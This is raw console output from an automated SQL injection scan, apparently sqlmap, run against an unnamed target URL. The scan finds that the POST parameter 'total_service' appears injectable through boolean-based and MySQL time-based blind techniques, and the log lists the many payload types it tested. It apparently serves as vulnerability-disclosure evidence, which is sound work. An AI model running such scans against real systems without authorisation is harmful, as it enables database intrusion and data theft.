 ```SQL
[*] starting @ 10:43:24 /2023-02-13/

[10:43:24] [INFO] testing connection to the target URL
[10:43:24] [INFO] testing if the target URL content is stable
[10:43:24] [INFO] target URL content is stable
[10:43:25] [WARNING] heuristic (basic) test shows that POST parameter 'total_service' might not be injectable
[10:43:25] [INFO] testing for SQL injection on POST parameter 'total_service'
[10:43:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:43:26] [INFO] POST parameter 'total_service' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[10:43:27] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[10:43:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:43:33] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:43:34] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:43:34] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:43:34] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:43:34] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[10:43:34] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[10:43:35] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[10:43:35] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:43:35] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:43:35] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:43:36] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:43:36] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:43:36] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:43:36] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:43:37] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[10:43:37] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[10:43:37] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:43:37] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[10:43:37] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[10:43:37] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[10:43:37] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[10:43:37] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:43:37] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[10:43:37] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[10:43:37] [INFO] testing 'Generic inline queries'
[10:43:38] [INFO] testing 'MySQL inline queries'
[10:43:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:43:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[10:43:38] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[10:43:39] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[10:43:39] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[10:43:39] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[10:43:39] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:43:50] [INFO] POST parameter 'total_service' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
```